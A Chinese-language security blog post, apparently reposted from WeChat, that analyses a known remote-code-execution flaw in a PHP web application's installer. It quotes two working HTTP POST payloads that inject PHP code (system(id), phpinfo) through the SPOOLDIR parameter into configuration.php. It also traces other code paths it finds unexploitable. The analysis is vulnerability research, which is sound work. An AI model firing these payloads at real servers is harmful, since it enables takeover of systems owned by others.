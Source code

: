 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/O9Dh2iW6sky-RZF49K2Azg)

背景
==

看到这个漏洞的 EXP，没咋看到分析，漏洞原理很简单，下了份源码看看能不能混个 CVE，结果啥也没捞到，写个过程记录下。

分析
==

已知 EXP，找触发点就行

```
POST /index.php
HTTP/1.1
Host:
User-Agent: Mozilla/5.0
(Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip,
deflateAccept: */*
Connection:
closeAccept-Language: en-US,en;q=0.5
Content-Type:
application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49
 
SPOOLDIR=test%22.system%28id%29.%22&recheck=recheck
```

看 index.php 49-56 行

![](https://mmbiz.qpic.cn/mmbiz_png/Lu7eicMrZheEUmdZcPZGBoSqicHgm8gXm2tNVFsYoQjpXrUqp9IKsVNNhfpUOy7iaeGuL9dOfTob9H8eVQ1InhIqA/640?wx_fmt=png)

先判断 configuration.php 这个文件是否存在，然后判断 recheck 和 SPOOLDIR 是否设置，在 if 中调用了 check_spooldir()，然后调用 setConfigurationTypeValue__index 函数，最后包含 configuration.php，跟进 check_spooldir() 看看  

![](https://mmbiz.qpic.cn/mmbiz_png/Lu7eicMrZheEUmdZcPZGBoSqicHgm8gXm2J8eTHm7moDqGtDFhOTXeN7xhqkY729w3HVA98ueFN4xaCiclDAVk8Hg/640?wx_fmt=png)

看 1209 行，如果 SPOOLDIR 有内容则进入 if 判断了 DISABLE_CHECK_SPOOLDIR 是否为空，然后创建了一个文件又删除了这个文件，返回真。不知道这里的用意是啥，不过这个不影响 getshell。

然后我们跟进 setConfigurationTypeValue__index 看看

![](https://mmbiz.qpic.cn/mmbiz_png/Lu7eicMrZheEUmdZcPZGBoSqicHgm8gXm2uoQZWdJKibFIyqhdYvm7S2n1zgYPKVIapm5ib23eKliaxjYtSq7iaoebSA/640?wx_fmt=png)

前面都不是啥重点，我们可以看到 $value 经过 escapeConfigurationValue__index 和一堆赋值后变成 $contentNewE 写入了 configuration.php。我们看下 escapeConfigurationValue__index 这个过滤函数干啥了。  

![](https://mmbiz.qpic.cn/mmbiz_png/Lu7eicMrZheEUmdZcPZGBoSqicHgm8gXm2CVCGzI2WIr639NMlFbicibBib1rpNOmmPf8meEDx6h0bHjm0tcibrWfD3w/640?wx_fmt=png)

先判断是不是字符串，然后转义单引号和反斜杠，并没有过滤尖括号以及双引号之类的。对 getshell 好像没有啥限制。所以我们在第一次系统安装时 getshell 的 exp 就是：  

```
POST /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflateAccept: */*
Connection: closeAccept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49

SPOOLDIR=<?php phpinfo();?>&recheck=annen&DISABLE_CHECK_SPOOLDIR=1
```

当然这是在 configuration.php 存在的情况下，默认安装好 configuration.php 是不存在的，我们继续往下看

![](https://mmbiz.qpic.cn/mmbiz_png/Lu7eicMrZheEUmdZcPZGBoSqicHgm8gXm24x8Ws4yg7SXBicLtg2icbOskqtvia45muhibmtUHnTBuXdrSBJiat3mLYVQ/640?wx_fmt=png)

跟进 write_config()

![](https://mmbiz.qpic.cn/mmbiz_png/Lu7eicMrZheEUmdZcPZGBoSqicHgm8gXm2O0hDoEQicicF7u3YTr0rbNfkH7Bg3r9UJtgfLVaSgYhwhUVNpkpgFeDA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Lu7eicMrZheEUmdZcPZGBoSqicHgm8gXm20DgGiamJzWQeBUfAv8sEsQPnCPtP9AkQD4bmu7Lgz7iaB37DZ42d97mg/640?wx_fmt=png)

从业务上来看这是在配置数据库文件，exp 利用的就是这个位置，所有的 POST 请求都是通过 escapeConfigurationValue__index 过滤，我们之前分析了这个函数，对 getshell 影响并不大。然后在 961 行到 970 行这一段直接把上面的内容写入 configuration.php。造成 getshell。所以这里能 getshell 的变量还是很多。

拓展
==

其实这个 CVE 很简单，我寻思还有没有其他的点呢，于是看了下其他文件

看到 php/lib/functions_open.php 中有个 exec，以为能命令注入呢，看到 hwid 和 licensetoken 先被 urlencode 编码然后又被 escapeshellarg 过滤。外面还包裹了单引号，查询了相关资料发现无解。这个点无法利用。

![](https://mmbiz.qpic.cn/mmbiz_png/Lu7eicMrZheEUmdZcPZGBoSqicHgm8gXm2o4VFh6MXU6qKl9AkOqoNmWfia8vIqFKJYU1hhZpkKCqTa0NNCpX7GxQ/640?wx_fmt=png)

不死心继续看 index.php，看到这么一段

![](https://mmbiz.qpic.cn/mmbiz_png/Lu7eicMrZheEUmdZcPZGBoSqicHgm8gXm2ia1FeFCG8Y6fVSSYGbfk6om9NlegquKzCGqOHjd5ic67cUOqXce8gpAQ/640?wx_fmt=png)如果能进入 else if 就能写 shell, 但是前面还有个拦路虎。跟进看看 check_key_content-before_save。看看有没有戏  

![](https://mmbiz.qpic.cn/mmbiz_png/Lu7eicMrZheEUmdZcPZGBoSqicHgm8gXm2TasWtQYsOHXBOSocNwicrfJtvDcpN1qZdpDDvgJVStYksZbycoMzibiaQ/640?wx_fmt=png)

看正则❤凉了半截，过程很简单，如果符合匹配到正则内容就返回真，为真我们就能写文件，但这个正则已经把文件内容限制死了，要不然就无法通过

根据正则要求的文件内容如下，感觉无解。

```
<?php exit(0); ?>

Expires: 06 Jun 2021
easycallerid: 1
id: 71286
upgradeexpirxxxxxxxxxeq: 2021-06-06

------ LICENSE FILE DATA -------
3172UU1Y0X6Kq1CfY7to1xnB0VNJJ2QF
cG6YincUBpF9jLzJBGdMG2FSyM5orlzy
hG276foZvkZkpLMzJzhbMAnQiw61GUvv
Lpmitn3Z/6tntOMKdvhDlyapiz6sKuaa
Af8K+u6UOHZCea6H4xuvs3qzx35qf6Df
yMoN+BlwG35y/mtOOlokw/EATtVe4gwo
mstCsZKNHIe8TXaoogj/iePQ63HC8Qosx
v2fPCsuAUoKEvXsLryC5bm7XYi+MTp1g
gxs6OQAZDx9ZoKOo4Oyc3CARmiOy73TW6
iOLB3RpVMcARZtPLbJWZVyh+jeO81YjN
S3pZyobLz6EM2qRRBTLymQymSoXW3T2y
PZm2c22j2NRZCHNOYNgbeujZfRnCt/Bn
fBa2gZz3Yq5ORGC=
--------------------------------
```

以上就是符合要求的正则，感觉无利用姿势了，如果有师傅有其他姿势带带弟弟